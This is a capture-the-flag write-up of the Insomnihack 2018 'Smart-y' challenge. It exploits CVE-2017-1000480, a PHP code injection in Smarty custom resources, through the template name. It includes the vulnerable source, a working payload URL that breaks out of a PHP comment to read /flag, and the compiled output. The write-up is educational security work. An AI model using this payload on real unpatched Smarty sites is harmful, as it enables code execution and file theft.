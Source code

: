 # Smart-y writeup, Insomnihack 2018 teaser

This challenge is the kind I really like - a little \#0day crafting involved. The following is an exploit for CVE-2017-1000480 by virtue of this CTF. The chal was found at [http://smart-y.teaser.insomnihack.ch/](http://smart-y.teaser.insomnihack.ch/). After a couple of UI interactions we end up at `http://smart-y.teaser.insomnihack.ch/console.php` showing the following content:

```text
The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```

`<<<DEBUG>>>` is a link that redirects to `http://smart-y.teaser.insomnihack.ch/console.php?hl` which displays its source code:

```text
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

By gazing at this we note the following:

* the code uses the Smarty template library
* the code does not use a template file but rather ...
* it registers a custom resource which works as a dynamic template
* we completely control `$_GET['id']` which is being passed into the `display()` method
* `./smarty/libs/Smarty.class.php` include path is actually browsable \(directory listing\)

Beyond that the challenge description suggests that the flag is in `/flag`. From the last point we learn about the version of the template engine which is ... `===== 3.1.31 ===== (14.12.2016)` as per the [change\_log.txt](http://smart-y.teaser.insomnihack.ch/smarty/change_log.txt) file discovered. In order to see how outdated this is we take to the [Smarty project](https://github.com/smarty-php/smarty/) over at GH. There's quite a few thousand commits after the date.

Quick parsing of issues and commits does not reveal anything interesting so we conduct a quick CVE search to see if there are known vulnerabilities. Curiously, we do find one: [CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/) which happens to be the latest one reported on 2018-01-03. The description is extremely interesting:

```text

Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name.

```

Welp... we have just that. The CVE details point only to the latest [changelog](https://github.com/smarty-php/smarty/blob/master/change_log.txt) where we [find our bug-o](https://github.com/smarty-php/smarty/blob/master/change_log.txt#L70):

```text

21.7.2017
  - security possible PHP code injection on custom resources at display() or fetch()
    calls if the resource does not sanitize the template name

```

which, after parsing the commit history, leads us to [this commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61). Looks like it's what we're after. The commit is tiny \(typical to terrbile vuln bugfixes\) but contains key pointers that help us craft a sploit. `$source->name` is apparently a thing that's causing troubles when using a custom resource via `$smarty->registerResource('news',new news);`.

So basically the `$_GET['id']` param is `$source->name` which we fully control. After _vardumping_ a bit around the patched functions in the Smarty library we see that we can contaminate the file path that's being generated [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-c18c361cf06b21f46e6d5ae3d3330a2fR50), which in turn, ends up [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-9d91242f09631bf41fcbb63ad9c00fa3R45). So what's happening at a higher level is that Smarty would compile the template and cache it under `/tmp/templates_c` \(referring to `define('SMARTY_COMPILE_DIR','/tmp/templates_c');` of the challenge code\) bearing the path name that we were able to taint.

If you carefully take a look at the patch again you'd see that something weird [here](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61#diff-9d91242f09631bf41fcbb63ad9c00fa3R4) as if it prevents a PHP comment from being parsed as such. If so then it's code exec indeed. The sploit is trivial and looks like this:

```text

http://smart-y.teaser.insomnihack.ch/console.php?id=*/readfile(%22/flag%22);//

```

Our payload is being parsed as `news:*/readfile(%22/flag%22);//` which creates a file `/tmp/templates_c/<hash of the file>_<some digits>_<our tainted name>.php` which contains the following \(can be fetched from `http://smart-y.teaser.insomnihack.ch/console.php?id=*/readfile(__FILE__);//`\):

```text


<?php
/* Smarty version 3.1.31, created on 2018-01-22 09:51:34
  from "news:*/readfile(__FILE__);//" */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.31',
  'unifunc' => 'content_5a65b426cbc824_91081900',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
    '982ed2594de5de4cbe51900d54016762d8808622' => 
    array (
      0 => 'news:*/readfile(__FILE__);//',
      1 => 1516614694,
      2 => 'news',
    ),
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_5a65b426cbc824_91081900 (Smarty_Internal_Template $_smarty_tpl) {
?>
The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>&lt;&lt;&lt;DEBUG&gt;&gt;&gt;</a><?php }
}
The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>&lt;&lt;&lt;DEBUG&gt;&gt;&gt;</a>

```

As you can see our `$_GET['id']` ends up in the template source where we simply close the comment line and append our code. Flag:

`INS{why_being_so_smart-y} The news system is in maintenance. Please wait a year. <<<DEBUG>>>`

> Read the manual if unsure, post comment\(s\) if unclear.


